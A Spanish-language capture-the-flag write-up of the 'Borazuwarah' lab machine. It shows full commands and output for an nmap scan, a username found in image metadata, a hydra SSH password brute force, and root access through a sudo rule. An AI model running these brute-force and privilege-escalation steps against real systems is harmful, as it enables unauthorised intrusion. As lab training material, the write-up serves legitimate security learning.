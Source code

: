 # Explotación de la máquina Borazuwarah

## Información general
- **Nombre de la máquina**: Borazuwarah
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: HTTP (puerto 80), SSH (puerto 22)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
sudo nmap -sV -sC 172.17.0.2

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 12:45 -05
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Nos muestra que solo tenemos el 22 de ssh y el 80 con apache.

Primero revisamos la pagina web.

Vemos que solo hay una imagen y no hay comentarios ni nada asi que descargamos la imagen por si esconde algo

## Exiftool

Usaremos la herramienta exiftool para ver los detalles de la imagen 

```bash
exiftool img.jpeg                      

```
```                                           
ExifTool Version Number         : 12.76
File Name                       : img.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:12:04 22:53:30-05:00
File Access Date/Time           : 2024:12:04 22:54:55-05:00
File Inode Change Date/Time     : 2024:12:04 22:53:30-05:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207

```
Genial escondia un nombre de usuario , ahora con ese nombre de usuario podemos lanzar hydra , recordemos que esta el puerto 22 abierto.

```bash 
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-05 12:49:03
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-05 12:49:09

```
No tarda nada en devolvernos un password , pasamos a conectar por ssh.

```bash

ssh borazuwarah@172.17.0.2 
borazuwarah@172.17.0.2's password: 
Linux e8dd44607fdf 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

```
Una vez conectados buscamos como escalar yo siempre ejecuto sudo -l primero.

```bash 
Matching Defaults entries for borazuwarah on e8dd44607fdf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on e8dd44607fdf:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Como vemos podemos ejecutar bash con permisos elevados.

```bash 
sudo bash

root@e8dd44607fdf:/home/borazuwarah# whoami
root
```
Llegamos al final somos root!!!

